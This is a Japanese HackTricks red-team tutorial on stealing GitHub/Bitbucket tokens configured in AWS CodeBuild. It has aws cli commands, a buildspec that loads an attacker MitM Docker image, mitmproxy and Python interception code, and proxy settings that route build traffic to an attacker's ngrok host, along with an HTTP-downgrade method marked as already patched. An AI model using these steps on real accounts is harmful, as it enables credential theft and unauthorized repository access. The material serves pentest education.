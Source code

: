 # AWS Codebuild - トークンリーク

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Github/Bitbucketで設定されたトークンの回復

まず、リークする可能性のある設定済みのソースクレデンシャルがあるかどうかを確認します：
```bash
aws codebuild list-source-credentials
```
### Dockerイメージ経由

たとえばGithubへの認証がアカウントで設定されていることがわかった場合、特定のDockerイメージを使用してプロジェクトのビルドを実行するようにCodebuildを設定することで、そのアクセス（**GHトークンまたはOAuthトークン**）を**抜き取る**ことができます。

この目的のために、新しいCodebuildプロジェクトを**作成する**か、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**環境変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定します。これにより、**`https_proxy`**と**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **独自のDocker MitMイメージを作成してアップロードする**
* リポジトリの指示に従ってプロキシIPアドレスを設定し、SSL証明書を設定して**dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* **`ngrok`**を使用して、例えば`ngrok tcp 4444`のようにプロキシをホストに設定することができます。
* Dockerイメージをビルドしたら、**パブリックリポジトリにアップロードします**（Dockerhub、ECRなど...）
2. **環境を設定する**
* 新しいCodebuildプロジェクトを**作成する**か、既存のものの環境を**変更する**。
* プロジェクトが**以前に生成されたDockerイメージ**を使用するように設定します。
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **ホストでMitMプロキシを設定する**
* **Githubリポジトリ**で示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **ビルドを実行し、クレデンシャルをキャプチャする**

*   **Authorization** ヘッダーでトークンを確認できます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これは aws cli を使用して以下のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性はAWSによって2023年2月20日の週のいつか（金曜日だと思います）に修正されました。そのため、攻撃者はこれを悪用できなくなりました :)**
{% endhint %}

攻撃者は、**CodeBuildの権限を昇格させることで、設定されているGithub/Bitbucketトークンを漏洩させる**ことができます。また、OAuthを介して権限が設定されている場合は、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させる**ことができます。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すように設定することができます（例：`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例：**http://**github.com/carlospolop-forks/TestActions
* その後、プロキシ変数（http\_proxyとhttps\_proxy）によって指されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)からの基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトのビルド**をクリックすると、**認証情報**がクリアテキスト（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者は、自分のマシンからトークンを使用し、その権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）利用できるようになります。
{% endhint %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
